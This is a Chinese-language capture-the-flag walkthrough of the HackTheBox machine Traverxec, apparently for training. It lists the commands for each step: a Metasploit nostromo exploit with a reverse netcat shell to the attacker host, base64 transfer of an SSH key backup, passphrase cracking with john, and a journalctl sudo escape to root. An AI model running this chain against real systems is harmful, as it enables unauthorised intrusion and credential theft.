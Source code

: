 # Traverxec

## 环境

平台：HackTheBox

攻击机：Kali（IP：10.10.15.145）

靶机：Traverxec（IP：10.10.10.165）

地址：https://www.hackthebox.eu/home/machines/profile/217

## Let's go

```
nmap -A 10.10.10.165
```

![](./img/Traverxec-01.png)

> **浏览网页并没有发现什么信息，但是搜索发现nostromo1.9.6具有漏洞**

```
msfconsole
search nostromo
use 0
info
```

![](./img/Traverxec-02.png)![](./img/Traverxec-03.png)

```
set rhosts 10.10.10.165
set payload cmd/unix/reverse_netcat_gaping	 # 建议
set lhost 10.10.15.145
set lport 4444
run
```

![](./img/Traverxec-04.png)

```
python -c 'import pty;pty.spawn("/bin/bash")';
cd /var/nostromo/conf
cat nhttpd.conf
```

![](./img/Traverxec-05.png)![](./img/Traverxec-06.png)

>**拿到的密文放到服务器去跑，半天没出来。。。**
>
>**上面并没有发现public_www目录，怀疑在david中**

```
cd /home/david/public_www
cd protected-file-area
ls -la
```

![](./img/Traverxec-07.png)

```
base64 backup-ssh-identity-files.tgz 			  		#通过base64传输文件
vim 64											  		#写入64文件
cat 64 | base64 -d > backup-ssh-identity-files.tgz		#解码输出
tar -zxvf backup-ssh-idntity-files.tgz
```

![](./img/Traverxec-08.png)

![](./img/Traverxec-09.png)

> **使用私钥登陆发现需要密码，使用john进行破解**

```
cd home/david/.ssh/
python /usr/share/john/ssh2john.py id_rsa > passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![](./img/Traverxec-10.png)

```
ssh david@10.10.10.165 -i ./id_rsa
```

![](./img/Traverxec-11.png)

```
cd bin
cat server-stats.sh
```

![](./img/Traverxec-12.png)

> **查询发现journalctl可以提权，推荐网站：https://gtfobins.github.io/**

```
#需要调整终端窗口大小，跟less类似
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
cd
cat root.txt
```

![](./img/Traverxec-13.png)